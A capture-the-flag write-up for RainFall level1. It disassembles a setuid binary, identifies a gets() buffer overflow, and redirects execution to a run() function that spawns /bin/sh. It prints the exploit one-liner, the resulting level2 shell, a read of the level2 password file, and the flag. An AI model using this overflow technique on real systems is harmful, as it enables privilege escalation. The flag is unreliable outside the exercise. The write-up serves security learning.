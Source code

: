 # Level1

In this level, I also found a binary file (`level1`):

```
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

When running this binary file, it hangs:

```
level1@RainFall:~$ ./level1 EE
^c
level1@RainFall:~$
```

## **Binary Analysis**

Using GDB, we analyzed the binary and found that the `main` function uses **`gets()`** to retrieve the input. The program allocates a buffer of size 0x50 (80 bytes):

```
(gdb) disas main
Dump of assembler code for function main:
0x08048480 <+0>:  push   %ebp
0x08048481 <+1>:  mov    %esp,%ebp
0x08048483 <+3>:  and    $0xfffffff0,%esp
0x08048486 <+6>:  sub    $0x50,%esp
0x08048489 <+9>:  lea    0x10(%esp),%eax
0x0804848d <+13>: mov    %eax,(%esp)
0x08048490 <+16>: call   0x8048340 <gets@plt>
0x08048495 <+21>: leave
0x08048496 <+22>: ret
End of assembler dump.
(gdb)
```

The use of **`gets()`** makes the program vulnerable to buffer overflow due to the lack of bounds checking on input.

```
(gdb) info functions
All defined functions:
Non-debugging symbols:
...
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
...
0x0804854c  _fini
```

By examining the available functions, we identified the `run` function:

```
(gdb) disas run
...
0x08048472 <+46>:  movl   $0x8048584,(%esp)
0x08048479 <+53>:  call   0x8048360 <system@plt>
...
0x0804847f <+59>:  ret
```

To determine the command executed by the `system` function:

```
(gdb) x/s 0x8048584
0x8048584: "/bin/sh"
```

## Vulnerability

The use of **`gets()`** makes the program vulnerable to buffer overflow due to the absence of bounds checking on input.

## Exploit

To exploit this vulnerability, we need to:

1. Fill the buffer with 76 bytes (80 bytes minus the 4-byte address size).
2. Overwrite the return address with the address of the `run` function (`0x08048444`).
3. Keep the input stream open to maintain shell access.

The final exploit is:

```bash
(python -c 'print("A" * 72 + "\x44\x84\x04\x08" * 2)'; cat ) | ./level1
```

Result:

```python
level1@RainFall:~$ (python -c 'print("A" * 72 + "\x44\x84\x04\x08" * 2)'; cat ) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Flag

```
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```